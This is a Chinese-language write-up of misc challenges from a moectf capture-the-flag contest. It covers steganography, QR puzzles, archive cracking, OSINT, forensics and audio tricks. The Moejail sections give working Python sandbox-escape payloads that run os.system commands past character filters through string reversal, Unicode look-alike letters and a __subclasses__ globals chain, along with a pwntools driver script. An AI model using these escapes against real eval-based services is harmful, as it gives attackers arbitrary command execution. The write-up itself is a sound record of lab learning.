



---
tags:
  - notes
comments: true
dg-publish: true
level: ctfwp
---

## ctfer2077

### 1

二维码扫了，当然是被骗了；继续看，用 zsteg 提取出：`where is the flag ? OK I give you some hints:incomplete LSB` =>  `b1,r,lsb,xy .. text:** "flag is moectf{84d7f247-3cba-4077-ba25-079f3ac7bb8a}"`

> [!FLAG]
>
> moectf{84d7f247-3cba-4077-ba25-079f3ac7bb8a}

### 2

`"key在这个加密卷里，我只知道密码是'法治富强自由富强和谐平等和谐平等法治法治和谐富强法治文明公正自由'，他宝贝的，只能靠你自己解密了。"` => `p@55w0rd`

## 小小套娃（nnnnext）

> 参考：https://blog.csdn.net/qq_34204534/article/details/142861124

[pngcheck 检查](attachments/MISC-4.png)发现倒数第二个 IDAT 块没满，说明最后一块是手动加上去的，binwalk 分离，使用下面的脚本提取出 tmp.png：

```python title="zlib_decompress.py"
import zlib

with open("634D4.zlib", "rb") as f:
    compressed_data = f.read()

decompressed_data = zlib.decompress(compressed_data).decode()

binary_stream = bytes.fromhex(decompressed_data)
with open("tmp.png", "wb") as p:
    p.write(binary_stream)
```

得到 [tmp.png](attachments/tmp.png) ，扫码获得：

> 送你一个 key！you've got the zipkey:`874jfy37yf37y7`

解压后先看 whereisthekey.txt ，居然是 zero-width character，使用 [zero-width-web](https://yuanfux.github.io/zero-width-web/) 解得 `idon'tknowmaybeits:dhufhduh48589`

继续解压二维码，获得：`新佛曰：諸隸閦僧降吽諸閦陀摩隸僧蜜念蜜劫哆咤若嘚閦嘇缽隸所羅閦劫諸諦若心菩咒閦即所空摩僧閦彌尊羅彌所眾若彌吽尊色訶閦空空閦摩即閦嚤蜜色嚴空即斯訶彌色空嚴嚴色陀閦阿降如如囑囑` 显然是什么与佛论禅；但是试了几个工具，只有[这个](http://hi.pcmoe.net/buddha.html)能解出来：`弗拉格是{sfdh8334r784jfx_sdjjuhreubc}`

> [!FLAG]
>
> moectf{sfdh8334r784jfx_sdjjuhreubc}

## 时光穿梭机

- [评《维多利亚时代的中国图像》](https://www.chinesefolklore.org.cn/forum/viewthread.php?action=printable&tid=18991) or [评《维多利亚时代的中国图像》：以图证史的他山之石](http://www.99ys.com/home/1970/01/01/08/84714.html)
- [高德地图——王建墓](https://ditu.amap.com/place/B001C8X8E1)

但是医院没找到……看了 writeup

> [!FLAG]
>
> moectf{han_fang_tang}

离谱，高德地图上叫“金牛区汉方堂养生馆”，百度地图上叫“成都金牛汉方堂中医门诊部”，怎么认为他是中医院，又怎么就直接截取汉方堂了……

## 我的图层在你之上

爆破获得密码 `p_w_d`；解压获得 `zbrpgs{q751894o-rr0n-47qq-85q4-r92q0443921s}`



> [!FLAG]
>
> moectf{d751894b-ee0a-47dd-85d4-e92d0443921f}

> 给我们 black.pdf 是干啥的？用 [Poppler (software)](https://www.wikiwand.com/en/articles/Poppler_(software)) 中的 pdftohtml，查看黑色图片的 lsb => [key=p_w_d](attachments/MISC-3.png)

## readme

这题的[交互和 Moejail 很像](attachments/MISC-1.png)，直接用 moejail lv2 处写的脚本了。

不过问的内容变成了 `What file you want to view?` 只让看文件？

可以看到是写入了 `/tmp/therealflag` 后快速删除了；直接查看更是显示拒绝。

看到提示 “文件真的被删了吗？如删”，估计是运行进程被保留了下来；运用在 pwn 中学到的知识[^1]，我们查看 `/proc/self/fd/3` （看了题解，不然一个一个找吧） 拿到 flag

[^1]: 你都写 misc 了，会点 pwn 怎么了（）

> [!FLAG]
>
> moectf{oHHHH-mAN-lt-i5-tHe_TrUe-S1MPL3_R3@deR235b}

## 捂住一只耳

音频 1 分钟后出现信息：`ok? 63 31 43 31 41 52 31 51 71 101` ascii ？没猜出来。

看了题解，第一位数字对应键盘上上边一行数字（10->0），第二位为对应列的序号；加上按了 Caps 键，故全为大写：

> [!FLAG]
>
> moectf{NEVERGETUP}

> 可惜，当时和其他人讨论的时候想到最后一位只能是 1/2/3，考虑是手机上的 9 宫格输入法，但是九宫格输入法只有 8 个按键有具体字母……

## Moejail

### lv1

根据要求拼接字符串后允许我们注入 payload，简单尝试后发现 `__import__('so'[::-1]).system('ls')` 是可行的，将 `ls` 换为需要执行的语句即可。

根据提示，在 `/tmp/` 下，[注意使用 `ls -a` 显示全部](attachments/pyjail.png)，之后想要查看文件，但是因为文件名导致命令太长了，使用 `*` 进行匹配即可：



> [!FLAG]
>
> moectf{Ah_HA-nOW-Y0u_KNoW_H0w_T0_EsCApE-SIMpL3_5trlng_fILter0}

### lv2

后面的系列题交互是类似的，故使用 python 交互吧：

```python title="moejail.py"
from pwn import *
import re

port = 57536  # 端口替换
# 启用debug模式
context.log_level = "debug"

# 建立连接
conn = remote("127.0.0.1", port, timeout=2)

# Replace the existing conn.recvuntil() call with:
welcome_msg = conn.recvuntil(b"to continue:").decode()
print(welcome_msg)

# print(welcome_msg)
# 使用正则表达式匹配需要拼接的字符串
match = re.search(r"Please enter '(\w+)'\+'(\w+)'=\? to continue:", welcome_msg)
if match:
    str1, str2 = match.groups()
    answer = str1 + str2 + "\n"
    conn.send(answer.encode())
else:
    print("Failed to match the required strings")
    conn.close()
    exit(1)

print(conn.recvline().decode())


def send_receive(command):
    conn.sendline(command.encode())
    while True:
        try:
            received = conn.recv(4096).decode()
            if not received:
                break
            print(received, end="")
        except EOFError:
            break


commands = []
commands.append("")  # 依据需要添加指令

for com in commands:
    send_receive(com)

# 关闭连接
conn.close()
```

我们只需要修改 port 和 commands 即可。

> if re.search(r'["\'0-8bd]|[^\x00-\xff]', code): print("Nope")

比赛时我写的命令非常丑陋：

```python
# ls
commands.append(
    "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False])"
)
# ls /tmp
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False])"
# )
# # cat /tmp/*
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(cat=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])])))"
# )
```

分三次执行了这三条 python 命令，居然也过了。

后来发现有简单地多的：

```python
commands.append("eval(input())")

commands.append("__import__('os').system('cat /tmp/*')")
```

> [!FLAG]
>
> moectf{YOu_CaN-Byp@s5-tH3-5TrING_FIlTEr_6y-NUm_TO-cHR2e}

### lv2.5

> if re.search(r'["\'0-8bdhosxy_]|[^\x00-\xff]', code): print("Nope")
> 
> if len(code) > 15: print("Too long")

这么短，还过滤那么多，偏偏上面那种快捷解法还能过：

> [!FLAG]
>
> moectf{sOm3tlM35_lNPut-C4N_BE_@_m3Th0D_tO_BypaSs_f11t3rs0}

### lv3

> if re.search(r"[A-z0-9]", code): print("Nope")

```python title="lv3.py"
commands.append("𝘦𝘹𝘦𝘤(𝘪𝘯𝘱𝘶𝘵())")
commands.append("__import__('os').system('cat /tmp/*')")
```

> [!FLAG]
>
> moectf{p3p_AILOW_You_U5E-uNIcOd3-cHar_@S_AsC1I_On3sd}

### lv4

```python title="lv4"
commands.append(
    "[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == '_wrap_close'][0].__init__.__globals__['system']('cat /tmp/*')"
)
```

> [!FLAG]
>
> moectf{Y0U_C4N_REcoVEr-glO64ls_AnD_bUilTInS-from-CuSTom-functions0}

## readme

偶遇一个提示？(attachments/MISC.png)

## The upside and down

> 只能说自己对文件的 16 进制格式不够熟悉，打开后习惯性就去看对应的 string 部分。

文件的 the_upside_and_down.hex 是一个二进制文件，但是其结尾以 16 进制数字反过来看就是一个 png 图片的魔数头了



所以将其逆序写入 png 即可：

```python title="reverse.py"
with open("the_upside_and_down.hex", "rb") as f, open("reverse.png", "wb") as w:
content = f.read().hex()[::-1]
w.write(bytes.fromhex(content))
```

打开是一张[二维码图片](attachments/reverse.png)，扫码获得 flag：

> [!FLAG]
>
> moectf{Fri3nds_d0n't_lie!}

---

> python jail 部分单独放在 MISC/pyjial.md 中，下面的内容为比赛时解出的部分。

## 拼图羔手

图片变为 4x4 ，简单的 python 代码就不能够帮助我们拼图了，但是有一个比较好的工具 [gaps](https://github.com/nemanja-m/gaps)，我们把图片拼为一张图 tmp.png 后，运行：

```shell
gaps run tmp.png solution.png --generations=20 --population=600 --size=122
```

即可拿到[二维码](attachments/solution.png)，扫码得到：

`balabalbalablbalblablbalabala//nihaopintugaoshou//encoded_flag{71517ysd%ryxsc!usv@ucy*wqosy*qxl&sxl*sbys^wb$syqwp$ysyw!qpw@hs}`

根据 encode.py 和 StrangeCharacterHint ，做出了如下解码脚本：

```python title="decode.py"
# https://ctf.xidian.edu.cn/games/10/challenges?challenge=123

def self_decode(encoded_text):
    code_setting_first = "doanythigfruebcjklmqpswvxz"
    code_setting_sec = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    number_setting = "0123456789"
    decoded_text = ""

    for char in encoded_text:  # 处理非数字部分
        if char in code_setting_first:
            if 116 <= ord(char) <= 122:
                decoded_text += chr(ord(char) - 19)
            elif 97 <= ord(char) <= 103:
                decoded_text += chr(ord(char) + 19)
            elif 104 <= ord(char) <= 115:
                decoded_text += chr(219 - ord(char))
        elif char in code_setting_sec:
            if 72 <= ord(char) <= 78:
                decoded_text += chr(ord(char) - 7)
            elif 65 <= ord(char) <= 71:
                decoded_text += chr(ord(char) + 7)
            elif 88 <= ord(char) <= 90:
                decoded_text += chr(ord(char) - 9)
            elif 79 <= ord(char) <= 81:
                decoded_text += chr(ord(char) + 9)
            elif 81 <= ord(char) <= 86:
                decoded_text += chr(168 - ord(char))
        elif char not in number_setting:
            decoded_text += char

    import re

    # 处理数字部分
    # 使用正则匹配encoded_text中的第一个数字，并获取其之后的所有数字写入 numbers 字符串中，没有数字则返回原文本
    numbers = re.findall(r"\d+", encoded_text)
    if numbers:
        numbers = numbers[0]
    else:
        return decoded_text
    # print(numbers)
    reversed_numbers = numbers[::-1]
    reversed_decode_numbers = last = numbers[0]
    for i in range(1, len(reversed_numbers)):
        last = str(int(numbers[i]) ^ int(last))
        reversed_decode_numbers += last
    decoded_text += reversed_decode_numbers[::-1]

    return decoded_text


# 使用函数
reversed_encode_flag = "71517ysd%ryxsc!usv@ucy*wqosy*qxl&sxl*sbys^wb$syqwp$ysyw!qpw@hs"[
    ::-1
]

# key = "xixsdxnlUmXixunbGsardftaUixavtitsJxzmtiaU"
# reverse_key = "xixsdxnlUmXixunbGsardftaUixavtitsJxzmtiaU"[::-1]
# decoded_key = self_decode(reverse_key)
# print(decoded_key) "StrangeCharacterStaywithNumberOnSomewhere"

decoded_flag = self_decode(reversed_encode_flag)
print("moectf{" + decoded_flag + "}")
# moectf{hs@dkj!dfhf$kdjfh$ud^hfuh*oeh&oej*fhljd*fvb@chb!vhefi%whf52367}
alphabet = ""
strange_character = ""
nums = ""
for char in decoded_flag:
    if char in "doanythigfruebcjklmqpswvxz":
        alphabet += char
    elif char in "0123456789":
        nums += char
    else:
        strange_character += char

print("moectf{" + alphabet + strange_character + nums + "}")
print("moectf{" + alphabet + nums + strange_character + "}")
# moectf{hsdkjdfhfkdjfhudhfuhoehoejfhljdfvbchbvhefiwhf@!$$^*&**@!%52367}
# moectf{hsdkjdfhfkdjfhudhfuhoehoejfhljdfvbchbvhefiwhf52367@!$$^*&**@!%}

```

但是，这三个结果都是错误的。通过“锤子”尝试获取帮助，管理员给我的提示是：“StrangeCharacterStaywithNumberOnSomewhere 这里的数字不是flag里面出现的数字如果你买这题hint了你会知道这里数字和字母是互相置换的但这个对应的数字需要你去找故而这个hint就是数字和字母的对应关系的展示” 

> 购买 hint: “strange character不能现身flag，对应的数字总是作为他的替身现身flag” 。

尝试了 ascii 码，显然失败了。

最后在交流中，想到键盘上的按键（F1、F2 等按键下面那一行）的映射，过关。

> [!FLAG]
>
> moectf{hs2dkj1dfhf4kdjfh4ud6hfuh8oeh7oej8fhljd8fvb2chb1vhefi5whf52367}

## 每人至少300份

解压缩包，获得 9 个拼图和一个 encode.txt 以及 encode0.py 。

```python title="img_puzzle.py"
from PIL import Image
import numpy as np
import os


def get_edge(image, edge):
    if edge == "left":
        return np.array(image)[:, 0]
    elif edge == "right":
        return np.array(image)[:, -1]
    elif edge == "top":
        return np.array(image)[0, :]
    elif edge == "bottom":
        return np.array(image)[-1, :]


def edge_difference(edge1, edge2):
    return np.sum(np.abs(edge1 - edge2))


def find_best_match(target_edge, images, edge_type):
    best_match = None
    best_score = float("inf")
    for img in images:
        score = edge_difference(target_edge, get_edge(img, edge_type))
        if score < best_score:
            best_score = score
            best_match = img
    return best_match, best_score


def reconstruct_qr(input_folder, output_file):
    image_files = [
        f for f in os.listdir(input_folder) if f.endswith(".png") or f.endswith(".jpg")
    ]
    images = [
        Image.open(os.path.join(input_folder, f)).convert("RGB") for f in image_files
    ]

    tile_width, tile_height = images[0].size
    result_image = Image.new("RGB", (tile_width * 3, tile_height * 3))

    # Find top-left corner (usually contains a positioning square)
    top_left = max(images, key=lambda img: np.sum(np.array(img)[:10, :10] == 0))
    result_image.paste(top_left, (0, 0))
    images.remove(top_left)

    # Complete first row
    for i in range(1, 3):
        target_edge = get_edge(
            result_image.crop((tile_width * (i - 1), 0, tile_width * i, tile_height)),
            "right",
        )
        best_match, _ = find_best_match(target_edge, images, "left")
        result_image.paste(best_match, (tile_width * i, 0))
        images.remove(best_match)

    # Complete first column
    for i in range(1, 3):
        target_edge = get_edge(
            result_image.crop((0, tile_height * (i - 1), tile_width, tile_height * i)),
            "bottom",
        )
        best_match, _ = find_best_match(target_edge, images, "top")
        result_image.paste(best_match, (0, tile_height * i))
        images.remove(best_match)

    # Complete remaining tiles
    for row in range(1, 3):
        for col in range(1, 3):
            left_edge = get_edge(
                result_image.crop(
                    (
                        tile_width * (col - 1),
                        tile_height * row,
                        tile_width * col,
                        tile_height * (row + 1),
                    )
                ),
                "right",
            )
            top_edge = get_edge(
                result_image.crop(
                    (
                        tile_width * col,
                        tile_height * (row - 1),
                        tile_width * (col + 1),
                        tile_height * row,
                    )
                ),
                "bottom",
            )

            best_match = None
            best_score = float("inf")
            for img in images:
                score = edge_difference(
                    left_edge, get_edge(img, "left")
                ) + edge_difference(top_edge, get_edge(img, "top"))
                if score < best_score:
                    best_score = score
                    best_match = img

            result_image.paste(best_match, (tile_width * col, tile_height * row))
            images.remove(best_match)

    result_image.save(output_file)
    print(f"Reconstructed QR code saved as {output_file}")


# 使用函数
input_folder = "imgs/"
output_file = "reconstructed_qr.png"
reconstruct_qr(input_folder, output_file)
```

对于拼图，用上面的简单脚本[获取](attachments/reconstructed_qr.png)，扫码得；

`balabalballablblablbalablbalballbase58lblblblblllblblblblbalblbdjshjshduieyrfdrpieuufghdjhgfjhdsgfsjhdgfhjdsghjgfdshjgfhjdgfhgdh///key{3FgQG9ZFteHzw7W42}??`

可以看到其中有一个 "base58" ，将 `3FgQG9ZFteHzw7W42` 用 base58 解码后尝试提交，通过了……

> [!FLAG]
>
> moectf{we1rd_qrc0d3}

## 解不完的压缩包

在 ctf101 中 ruru 与之类似，当时还有伪加密，这里没有；使用 python 脚本递归解压缩即可；最后获得一个 cccccccrc.zip ，考虑到其中有四个等大的小文本，同时压缩包名字也是提示，学习到这是 crc 碰撞，使用 [CRC32-Tools](https://github.com/AabyssZG/CRC32-Tools) 解开即可，获取密码：`*m:#P7j0` ，解开压缩包获得：

> [!FLAG]
>
> moectf{af9c688e-e0b9-4900-879c-672b44c550ea}

## Find It

图中给出了很多大公司名称：雄峰集团、桔子水晶酒店，定位到小区：“旭景崇盛园”；找到幼儿园：“吉的堡旭景崇盛幼儿园” “吉的堡英佳幼儿园”

> [!FLAG]
>
> moectf{ji_di_bao_you_er_yuan}

## the_secret_of_snowball

JPG 图像损害，修改开头的模数即可 => `Welc0me_t0_the_sec`

继续查看，末尾有 base64，解码 => `ret_life_0f_Misc!`

> [!FLAG]
>
> moectf{Welc0me_t0_the_secret_life_0f_Misc!}

## ez_F5

根据题目名称和其中的 copyright 可以知道是 [F5 加密](https://github.com/matthewgao/F5-steganography) (注意图片属性获取密码；使用 java 8)。

> [!FLAG]
>
> moectf{F5_15_s0_lntere5t1n9}

## 罗小黑战记

实话说第一次做 gif 题，但是看完一遍很显然某几帧有东西，[提取出来看看就好](attachments/README.png)，扫二维码。

> [!FLAG]
>
> moectf{y0uu6r3th3m0st3r1nth1sf13ld}

## 杂项入门指北

拿到图片确实是习惯于瞄一眼，然后去看隐写。看了半天，没东西。突然一堆实线中有一段虚线，按照字母将[图片旋转](attachments/README-1.png) => `.... ....- ...- . ..--.- .- ..--.- --. ----- ----- -.. ..--.- - .---- -- .`

> [!FLAG]
>
> moectf{H4VE_A_G00D_T1ME}

## ez_Forensics

> 考察内存取证，先[复习一下](https://slides.tonycrane.cc/CTF101-2023-misc/lec3/#/2)

查看[命令行信息](attachments/WRITEUP.png)，得到 flag：

> [!FLAG]
>
> moectf{WWBGY-TLVC5-XKYBZ}

## Abnormal flag

audacity [查看频谱图](attachments/WRITEUP-1.png)

> [!FLAG]
>
> moectf{09e3f7f8-c970-4c71-92b0-6f03a677421a}

